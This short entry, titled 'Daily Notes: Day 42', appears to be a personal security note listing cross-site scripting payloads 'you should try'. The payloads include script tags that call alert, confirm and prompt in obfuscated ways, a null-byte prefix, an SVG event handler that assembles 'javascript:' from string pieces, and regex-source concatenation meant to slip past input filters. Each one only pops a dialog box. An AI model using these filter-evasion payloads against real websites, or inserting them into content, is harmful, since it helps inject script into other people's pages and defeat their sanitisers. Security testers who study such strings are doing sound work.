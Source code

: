 Daily Notes : Day 42 
XSS Payload you should try !!

<script>/&/-alert(1)</script>
<script>/&/-alert(1)</script>

%00%00%00%00%00%00%00<script>alert(1)</script>     (1.Null bytes are output   2.There is no space character immediately before)

<sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`">

<bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click 

<script>http://alert.call(null,1)</script>   (http://alert.call(%20, "XSS");)

<script>http://confirm.call(null,1)</script>

<script>http://prompt.call(null,1)</script>

<script>alert.apply(null, [1])</script>